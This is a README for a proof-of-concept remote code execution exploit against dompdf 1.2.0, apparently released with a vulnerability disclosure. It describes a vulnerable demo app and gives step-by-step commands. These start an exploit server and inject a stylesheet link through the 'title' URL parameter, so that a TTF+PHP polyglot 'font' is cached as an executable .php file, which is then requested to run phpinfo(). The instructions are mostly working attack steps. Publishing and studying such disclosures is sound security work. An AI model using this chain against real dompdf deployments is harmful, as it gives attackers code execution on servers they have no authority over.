

# RCE exploit for dompdf

This repository contains a vulnerable demo application using dompdf 1.2.0 and an exploit that achieves remote code execution via a ttf+php polyglot file.



For more details, please visit https://positive.security/blog/dompdf-rce

## Setup Instruction on Ubuntu

- sudo apt install php7.4-cli
- sudo apt-get install php-mbstring
- sudo apt-get install php-dom
- sudo apt-get install php7.4-gd

## Instructions

1. Run the demo application
```
$ cd application
$ php -S localhost:9000
```

2. Run the exploit server
```
$ cd exploit
$ php -S localhost:9001
```

3. Trigger the exploit
```
http://localhost:9000/index.php?pdf&title=<link rel=stylesheet href='http://localhost:9001/exploit.css'>
```

4. Access the cached php "font" file and execute `phpinfo()`
```
http://localhost:9000/dompdf/lib/fonts/exploitfont_normal_3f83639933428d70e74a061f39009622.php
```

**Please note:** In case you're using different domains or ports, please edit `exploit/exploit.css` accordingly and check `application/dompdf/lib/fonts` for the full font filename.
